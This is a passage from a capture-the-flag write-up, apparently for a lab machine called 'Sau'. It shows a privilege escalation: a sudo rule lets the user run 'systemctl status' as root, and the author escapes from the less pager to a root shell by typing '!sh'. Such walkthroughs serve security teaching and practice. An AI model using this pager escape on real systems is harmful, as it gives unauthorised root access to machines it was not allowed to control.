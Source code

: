 ### Sudo permissions

Let's see if we can execute anything as another user with `sudo`.

```sh
puma@sau:~$ sudo -l
```

```
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

We do! We can execute the `/usr/bin/systemctl status trail.service` command as
`root`.

## Privilege escalation (Sudo permissions)

If we search [GTFOBins](https://gtfobins.github.io/) for `systemctl`, we find
[an entry](https://gtfobins.github.io/gtfobins/systemctl/)! Luckily, it has a
['Sudo' section](https://gtfobins.github.io/gtfobins/systemctl/#sudo).

In fact, `systemctl` uses `less` as a pager when the output is too long. The
good news (for us at least) is that `less` is exploitable! We should be able to
follow the configuration '(c)' of the GTFOBins for `systemctl` to elevate our
privileges.

### Exploitation

Let's send a bunch of random requests to the Maltrail server to fill the status
page.

Then, let's run the only command we can execute as `root`:

```sh
puma@sau:~$ sudo "/usr/bin/systemctl" "status" "trail.service"
```

```
<SNIP>
lines 1-58
```

The last line indicates that we're in a pager!

Now I'll just copy and paste the given command to abuse our `sudo` permissions:

```sh
!sh
```

```
#
```
